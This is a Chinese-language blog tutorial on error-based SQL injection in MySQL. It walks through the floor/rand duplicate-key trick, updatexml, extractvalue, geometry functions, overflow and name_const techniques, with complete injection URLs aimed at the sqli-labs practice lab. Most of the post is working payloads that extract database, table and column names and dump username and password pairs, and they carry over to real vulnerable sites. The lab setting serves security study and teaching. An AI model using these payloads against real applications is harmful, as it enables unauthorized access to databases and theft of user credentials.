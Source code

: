 ```yaml
---
layout: post
title: 基于报错的SQL注入
date: 2018-2-3
author: Qiqi
header-img: img/hero1.jpg
catalog: true
tag:
   - Web安全
   - SQL注入
---
```


# 基于报错的SQL注入

## 0x01 主键重复

floor() 为取整函数，floor(x)表示向下取整，只返回x的整数部分，小数部分舍弃

rand() 在0和1之间产生一个随机数

rand()*2 在0和2之间产生一个随机数

rand(x) 当整数值x被指定时，它被作为种子值。每个种子产生的随机数序列是不同的。

rand(0)*2 取0到2的随机数，但值是固定的，第n次产生的数均相同，0 1 1 0 1 1 0 0 1 1 1 0 ……

floor(rand()*2)有两条记录就会报错

floor(rand(0)*2)记录需3条以上，且3条以上必报错，返回的值是有规律的

报错过程：

1.首先读取第一条数据，取出floor(rand(0)\*2），得结果0，虚拟表中并不存在0,所以这时候要创建新主键，这时候它向主键插入floor(rand(0)*2),这时候rand已经变成了1，于是插入了1

2.然后读取第二条数据，取出floor(rand(0)*2),得结果1，虚拟表中存在1，所以它直接插入了第二条数据。

3.然后读取第三条数据，取出floor(rand(0)\*2),得结果0，虚拟表中不存0，所以这时候要创建新主键，它向主键中插入floor(rand(0)*2),这时候rand已经变为了1，已经存在1这个主键，所以发生了冲突，进而报错.

### 爆库名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and (select 1 from (select count(*),(concat((select database()),floor(rand(0)*2)))x from information_schema.tables group by x)a)--+
```

### 爆表名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and (select 1 from (select count(*),(concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2)))x from information_schema.tables group by x)a)--+
```

### 爆列名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and (select 1 from (select count(*),(concat((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' ),floor(rand(0)*2)))x from information_schema.tables group by x)a)--+
```

### 爆字段

```
localhost/sqli-labs-master/less-6/index.php?id=1" and (select 1 from (select count(*),(concat((select concat_ws(' | ',username,password) from security.users limit
0,1),floor(rand(0)*2)))x from information_schema.tables group by x)a)--+
```

## 0x02 updatexml()

updatexml(XML_document,XPath_string,nex_value);

第一个参数：XML_document是String格式，为XML文档对象的名称,

第二个参数：XPath_string (Xpath格式的字符串) ，

第三个参数：new_value，String格式，替换查找到的符合条件的数据

updatexml报错最多只能显示32位，我们可以借助字符串切割函数来显示任意位数的数据，可以使用mid()，或者substr()。

### 爆库名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and updatexml(1,concat(0x7e,(mid((select database()),1,31))),1)--+
```

### 爆表名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and updatexml(1,concat(0x7e,(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,31))),1)--+
```

### 爆列名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and updatexml(1,concat(0x7e,(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,31))),1)--+
```

### 爆字段

```
localhost/sqli-labs-master/less-6/index.php?id=1" and updatexml(1,concat(0x07,(mid((select concat_ws(' | ',username,password) from users limit 0,1),1,31))),1)--+
```

## 0x03 extractvalue()

ExtractValue(XML_document,XPath_string)

第一个参数:XML_document是String格式，为XML文档对象的名称。

第二个参数:XPath_string(Xpath格式的字符串)

作用:从目标XML中返回包含所查询值的字符串

### 爆库名

```
localhost/sqli-labs-master/less-6/index.php?id=1" and extractvalue(1,concat(0x7e,mid((select database()),1,31)))--+
```

其余都类似，不再赘述

## 0x04 几何函数报错

geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()

这些函数接受几何数据作为参数，如果不符合要求，就会报错，并且会将查询结果显示在错误信息中。

```mysql
multipoint((select * from(select * from(select user())a)b));
```

4.1(未精确测试) <= Mysql版本号<= 5.5.48 (精确测试)

## 0x05 数据溢出

### 整形溢出

```mysql
select ~0+!(select * from (select user())x);
```

```mysql
select (select(!x-~0)from(select(select user())x)a);
```

### 双精度溢出

利用exp()函数

```mysql
select exp(~(select * from(select user())x));
```

## 0x06 列名重复

name_const(name,value)
返回给定值。当用来产生一个结果集合列时，name_const促使该列使用给定名称。

```mysql
mysql> select name_const(version(),1);
+--------+
| 5.7.20 |
+--------+
|      1 |
+--------+
1 row in set (0.00 sec)
```

构造重复的列

```mysql
select * from (select name_const(version(),1),name_const(version(),1))a;
```

高版本mysql修复了这个问题，要求第一个参数必须为常量，所以我们只能去查询user(),version()一些系统常量。

但在低版本中（Mysql 5.0.12 <= 版本 <= Mysql 5.0.51），可以成功利用。

```mysql
select * from (select name_const((select database()),1),name_const((select database()),1))a;
```

利用join()函数可以用来爆列名

```mysql
mysql> select * from(select * from users a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from(select * from users a join users b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
mysql> select * from(select * from user a join users b using(id, username))c;
ERROR 1060 (42S21): Duplicate column name 'password'
```

## 0x07 insert报错

等待更新～

## 0x08 update报错

等待更新～

## 0x09 delete报错

等待更新～
